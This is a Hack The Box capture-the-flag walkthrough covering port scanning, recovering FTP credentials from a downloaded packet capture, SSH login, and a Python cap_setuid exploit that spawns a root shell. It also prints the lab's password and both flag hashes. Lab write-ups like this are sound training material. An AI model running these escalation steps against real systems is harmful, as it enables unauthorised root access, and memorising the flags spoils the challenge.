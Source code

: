 HTB - [Machine Name] Walkthrough
Initial Enumeration
We start with a thorough Nmap scan to identify open ports and services on the target machine.

Bash

nmap -sV -p- 10.10.10.245
The scan reveals three open ports:

Port 21: FTP running vsftpd 3.0.3

Port 22: SSH running OpenSSH 8.2p1

Port 80: HTTP running Gunicorn, with a title of "Security Dashboard".

<br>

Foothold: Exploring the Web Server
The web server on port 80 shows a "Security Dashboard" and a /data directory. After navigating to /data, we find a .pcap file (packet capture) which we can download and analyze.

Bash

wget http://10.10.10.245/data/security_snapshot.pcap
We use a tool like Wireshark to inspect the .pcap file for any interesting information.

<br>

Gaining Access via FTP
Upon analyzing the packet capture, we discover credentials for the FTP service.

Username: nathan

Password: Buck3tH4TF0RM3!

We test these credentials and find that they also work for the SSH service on port 22, giving us a shell on the machine as the user nathan.

Bash

ssh nathan@10.10.10.245
With user access, we can now retrieve the user flag.

6e89061b7afba09dfa066e55e390c53d

<br>

Privilege Escalation
After gaining a user shell, our next step is to escalate privileges to root. We run LinPEAS to scan the system for potential vulnerabilities and misconfigurations.

Bash

# We can transfer linpeas.sh to the target machine using scp
scp linpeas.sh nathan@10.10.10.245:/tmp/
# Then execute it on the target
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
<br>

The LinPEAS output highlights that python3.8 has the cap_setuid capability, which allows it to change the User ID of a process. This is a significant finding that we can exploit to become root. We can use this capability to change our process's User ID to 0 (root) and then execute a root shell.

We write and execute a simple Python script to perform this action.

Python

import os
os.setuid(0)
os.system("/bin/bash")
After running the script, we successfully gain a root shell.

We can now read the contents of the root.txt file and claim the root flag.

69d7ea1977e866c3e9ba8c5ff6abe8f0
